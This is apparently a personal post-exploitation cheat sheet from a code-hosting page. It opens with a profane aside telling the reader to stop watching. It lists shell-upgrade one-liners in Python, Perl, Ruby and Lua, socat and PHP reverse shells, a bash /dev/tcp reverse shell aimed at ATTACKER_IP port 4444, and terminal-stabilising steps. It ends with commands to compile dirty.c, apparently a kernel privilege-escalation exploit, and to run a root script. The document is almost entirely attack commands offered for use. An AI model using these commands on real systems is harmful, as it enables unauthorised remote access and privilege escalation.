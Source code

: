 the fuck are you doing here bro?? stop watching me!! nothing interesting here!

python -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'

/bin/bash -i

perl -e 'exec "/bin/bash";'

ruby -e 'exec "/bin/bash"'

lua -e 'os.execute("/bin/bash")'

socat file:`tty`,raw,echo=0 tcp-listen:1337

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444

echo 'sh -i' > /tmp/shell.sh
java -cp /tmp -Djava.security.manager=AllowAllSecurityManager -Djava.security.policy=/tmp/policy.policy Shell

php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/bash -i <&3 >&3 2>&3");'

script /dev/null -c "/bin/bash"

script /dev/null

export TERM=xterm

/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'

stty raw -echo
fg

gcc -pthread dirty.c -o dirty -lcrypt

perl root.pl [ip] [port]
